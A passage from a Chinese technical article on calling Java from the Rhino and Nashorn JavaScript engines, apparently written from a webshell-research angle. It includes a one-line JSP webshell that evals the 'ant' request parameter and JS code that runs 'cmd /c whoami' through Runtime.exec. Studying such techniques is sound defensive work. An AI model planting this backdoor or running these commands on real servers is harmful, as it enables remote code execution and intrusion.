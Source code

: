 
或者通过eval的重载函数，直接把对象通过一个HashMap放进去

```
new javax.script.ScriptEngineManager().getEngineByName("js").eval(request.getParameter("ant"), new javax.script.SimpleBindings(new java.util.HashMap() {{
put("response", response);
put("request", request);
}}))
```

### 调用Java方法
前面加上全限定类名即可

```
var s = [3];
s[0] = "cmd";
s[1] = "/c";
s[2] = "whoami";//yzddmr6
var p = java.lang.Runtime.getRuntime().exec(s);
var sc = new java.util.Scanner(p.getInputStream(),"GBK").useDelimiter("\\A");
var result = sc.hasNext() ? sc.next() : "";
sc.close();
```
### 导入Java类型

```
var Vector = java.util.Vector;
var JFrame = Packages.javax.swing.JFrame;

 //这种写法仅仅支持Nashorn，Rhino并不支持
var Vector = Java.type("java.util.Vector")
var JFrame = Java.type("javax.swing.JFrame")
```

### 创建Java类型的数组

```
// Rhino
var Array = java.lang.reflect.Array
var intClass = java.lang.Integer.TYPE
var array = Array.newInstance(intClass, 8)

// Nashorn
var IntArray = Java.type("int[]")
var array = new IntArray(8)
```



### 导入Java类
默认情况下，Nashorn 不会导入Java的包。这样主要为了避免类型冲突，比如你写了一个new String，引擎怎么知道你new的是Java的String还是js的String？所以所有的Java的调用都需要加上全限定类名。但是这样写起来很不方便。

这个时候大聪明Mozilla Rhino 就想了一个办法，整了个扩展文件，里面提供了importClass 跟importPackage 方法，可以导入指定的Java包。
